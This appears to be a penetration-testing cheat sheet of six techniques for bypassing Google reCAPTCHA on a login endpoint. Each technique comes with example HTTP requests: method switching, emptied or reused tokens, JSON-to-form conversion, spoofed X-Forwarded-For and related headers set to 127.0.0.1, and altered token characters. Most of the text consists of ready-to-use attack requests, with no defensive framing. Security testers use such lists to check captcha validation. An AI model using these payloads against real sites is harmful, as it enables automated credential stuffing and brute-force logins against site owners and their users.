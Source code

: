 # Bypass Captcha (Google reCAPTCHA)

1. Try changing the request method, for example POST to GET
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

Change the method to GET
```
GET /?_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123 HTTP 1.1
Host: target.com
[...]
```

2. Try remove the value of the captcha parameter
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=&_Username=daffa&_Password=test123
```

3. Try reuse old captcha token
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=OLD_CAPTCHA_TOKEN&_Username=daffa&_Password=test123
```

4. Convert JSON data to normal request parameter
```
POST / HTTP 1.1
Host: target.com
[...]

{"_RequestVerificationToken":"xxxxxxxxxxxxxx","_Username":"daffa","_Password":"test123"}
```
Convert to normal request
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```

5. Try custom header to bypass captcha
```
X-Originating-IP: 127.0.0.1
X-Forwarded-For: 127.0.0.1
X-Remote-IP: 127.0.0.1
X-Remote-Addr: 127.0.0.1
```

6. Change some specific characters of the captcha parameter and see if it is possible to bypass the restriction.
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxxxxxxxxxxxx&_Username=daffa&_Password=test123
```
Try this to bypass
```
POST / HTTP 1.1
Host: target.com
[...]

_RequestVerificationToken=xxxdxxxaxxcxxx&_Username=daffa&_Password=test123
```
